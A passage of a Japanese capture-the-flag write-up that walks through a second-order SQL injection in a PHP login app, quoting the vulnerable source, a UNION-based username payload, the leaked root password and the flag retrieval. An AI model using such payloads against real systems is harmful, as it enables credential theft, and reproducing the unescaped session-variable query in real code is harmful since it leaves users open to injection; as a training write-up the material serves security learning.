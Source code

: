 `login.php` はログイン時に利用するページのようです。

```php
<?php
session_start();
if(isset($_SESSION['username'])) {
    header('location: index.php');
    die();
}
require_once('./db.php');

if (isset($_POST['username']) && !empty($_POST['username']) && isset($_POST['password']) && !empty($_POST['password'])) {
    $username = mysqli_real_escape_string($conn, $_POST['username']);
    $password = mysqli_real_escape_string($conn, $_POST['password']);
    $sql = "SELECT * FROM users WHERE login='". $username ."' and password='". $password ."'";
    $res = $conn->query($sql);
    if($res->num_rows > 0) {
        $user = $res->fetch_assoc();
        $_SESSION['username'] = $user['login'];
        $_SESSION['role'] = $user['role'];
        header('location: index.php');
        die();
    } else {
        $success = false;
    }
}
?>
︙
```

脆弱性を探していきましょう。ユーザ入力はすべて `mysqli_real_escape_string` によってエスケープされており SQLi はできないように思えます。が、エスケープせず SQL に直接変数を結合している箇所が`index.php` にひとつだけあります。

```php
$sql = "SELECT * FROM posts WHERE author = '". $_SESSION['username'] ."'";
```

`login.php` を見ると、`$_SESSION['username']` はログイン時に DB から引っ張ってきてセットされていることが分かります。

```php
        $user = $res->fetch_assoc();
        $_SESSION['username'] = $user['login'];
```

これらを利用して、`' and 0 union select 1, login, password, 4, 5 from users where role = 1;#` というユーザ名で登録 → ログアウト → 再度ログインという流れで `role` が `1` のユーザの認証情報を得ることができました。

```
Results: 1
root 4
jjLLgTGk3uif2rKBVwqH
By: 5
```

`root` / `jjLLgTGk3uif2rKBVwqH` でログインし `/flags.php` にアクセスするとフラグが得られました。
